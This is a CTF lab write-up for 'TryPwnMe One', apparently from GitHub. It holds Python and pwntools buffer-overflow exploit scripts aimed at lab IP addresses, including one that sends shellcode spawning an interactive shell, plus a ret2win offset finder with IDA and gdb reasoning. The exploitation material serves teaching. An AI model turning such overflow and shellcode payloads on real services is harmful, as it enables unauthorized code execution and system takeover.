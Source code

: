 # TryPwnMe One

### TryOverflowMe 1
I developed the following exploit for this:<br />

    import socket
    
    ip = "10.10.7.174"
    
    port = 9003
    
    payload = "A"*45
    
    buffer = payload
    
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    
    try:
            s.connect((ip,port))
            response = s.recv(1024)
            print(response.decode())
    
            print("Sending payload...")
            s.send(bytes(buffer + "\r\n", "latin-1"))
    
            response = s.recv(4096)
            print("Response:\n", response.decode('latin-1'))
    
            print("Done!")
    except:
            print("Could not connect.")
![image](https://github.com/user-attachments/assets/d1cf6db5-ce6f-42cd-bb12-9ff6fe505327)<br />
But why 45 A's? If I open the binary on IDA, I can see that the buffer variable and the "admin" variable are 44 bytes apart:<br />
![image](https://github.com/user-attachments/assets/c886227a-d9f2-43e5-9eac-17de88f9ad3c)<br />
The buffer is at -30h, which is 48 bytes in decimal, and the admin variable is at -4h, which is 4 bytes in decimal. Their difference is 44, so I need to write at least 45 bytes to influence the admin variable.

### TryOverflowMe 2
I developed this exploit code for this task:

      import socket
      
      ip = "10.10.56.44"
      
      port = 9004
      
      payload = "A"*76
      
      admin = "\x59\x59\x59\x59"
      
      buffer = payload + admin
      
      s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      
      try:
              s.connect((ip,port))
              response = s.recv(1024)
              print(response.decode())
      
              print("Sending payload...")
              s.send(bytes(buffer + "\r\n", "latin-1"))
      
              response = s.recv(4096)
              print("Response:\n", response.decode('latin-1'))
      
              print("Done!")
      except:
              print("Could not connect.")
![image](https://github.com/user-attachments/assets/761f96a0-42ed-4b41-bdc8-d0f45e4b4a1a)<br />
The offset to reach the admin variable is 76, but why?<br />
![image](https://github.com/user-attachments/assets/973df8aa-ce49-4328-82e7-2db006752881)<br />
The buffer is located at ebp + 50h, which is 80 in decimal. Then there are two integers (check and guess), and then there's the admin variable. So to overflow the admin variable I have to put 80 - 4 - 4 bytes + 0x59595959.

### TryExecMe
I used the following python code, this time I used pwntools (shellcraft) to create a shellcode:

    from pwn import *
    
    context.arch = 'amd64'
    
    p = remote('10.10.80.153', 9005)
    
    shellcode = asm(shellcraft.sh())
    payload = shellcode
    
    p.sendline(payload)

    p.interactive()


![image](https://github.com/user-attachments/assets/224a1741-7399-4ffd-ac67-78b23d57f215)<br />


### TryRetMe
First I use this code to find the right offset to reach the RIP:

        from pwn import *
        
        io = process('./tryretme')
        print(io.recvregex(b':')) # read until we get the prompt
        
        io.recvline()
        io.sendline(cyclic(500))
        io.wait()
        core = io.corefile
        stack = core.rsp
        info("rsp = %#x", stack)
        pattern = core.read(stack, 4)
        rip_offset = cyclic_find(pattern)
        info("rip offset is %d", rip_offset)

![image](https://github.com/user-attachments/assets/c31a0c06-5204-4b3b-a5b8-11db575070df)<br />
Now that I know the offset I can overflow the RIP with the address of the `win` function, which is `0x00000000004011dd` (just run "info functions" on gdb to get this address). 

### Random Memories

### The Librarian

### Not Specified
